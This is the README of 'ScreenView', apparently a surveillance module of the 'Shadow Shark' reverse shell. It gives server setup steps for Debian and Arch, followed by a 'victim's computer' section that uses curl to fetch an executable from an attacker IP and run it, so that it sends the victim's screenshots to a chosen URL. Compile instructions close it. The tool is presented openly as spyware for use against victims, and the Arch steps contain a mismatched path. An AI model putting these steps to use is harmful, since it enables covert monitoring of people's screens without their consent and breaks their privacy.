 # ScreenView
The <a href="https://github.com/MrSharkSpamBot/ShadowSharkReverseShell">Shadow Shark</a> ScreenView Module.

## Installation
### Debian
```
$ sudo apt-get install python3 python3-pip git apache2 php libapache2-mod-php
$ sudo service apache2 start
$ cd /var/www/html/
$ sudo git clone https://github.com/BababooeyHackers/ScreenView.git
$ sudo chown -R www-data:www-data /var/www/html/ScreenView/
$ cd ScreenView/
$ pip3 install -r requirements.txt
```
### Arch
```
$ sudo pacman -S python python-pip git apache php php-apache
$ sudo systemctl start httpd
$ cd /srv/http/
$ sudo git clone https://github.com/BababooeyHackers/ScreenView.git
$ sudo chown -R www-data:www-data /var/www/html/ScreenView/
$ cd ScreenView/
$ pip3 install -r requirements.txt
```

## Usage
### On victim's computer
```
$ curl http://IP/hacks/ScreenView/ScreenView.(exe, app, etc) --output ScreenView.(exe, app, etc)
$ ScreenView.(exe, app, etc) --time (# Minutes) --url (Url to send screenshot to)
```

## Compilation
This module must be compiled on a Linux computer, Windows computer, Wine environment, or MacOS computer.
```
# First install python3 on your Linux computer, Windows computer, Wine environment, or MacOS computer.
$ pip(3) install -r requirements.txt
$ pyinstaller --onefile --icon icon.ico ScreenView.py
